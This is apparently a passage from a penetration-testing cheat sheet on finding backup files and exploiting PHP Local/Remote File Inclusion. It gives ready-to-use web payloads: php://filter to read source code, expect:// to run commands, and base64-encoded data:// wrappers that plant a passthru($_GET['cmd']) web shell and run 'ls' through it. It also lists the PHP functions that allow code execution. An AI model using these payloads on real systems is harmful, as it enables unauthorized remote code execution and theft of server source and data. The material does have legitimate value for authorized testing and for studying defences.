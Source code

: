 #### File backups

Once you have found all the files, look for backups of all the executable files ("*.php*", "*.aspx*"...). Common variations for naming a backup are 

```
file.ext~, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old
```

### Local File Inclusion / Remote File Inclusion - LFI / RFI

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```

#### Wrappers

##### Wrapper php://filter

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
```

##### Wrapper expect://

```
http://example.com/index.php?page=expect://id
```

##### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with 
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
```
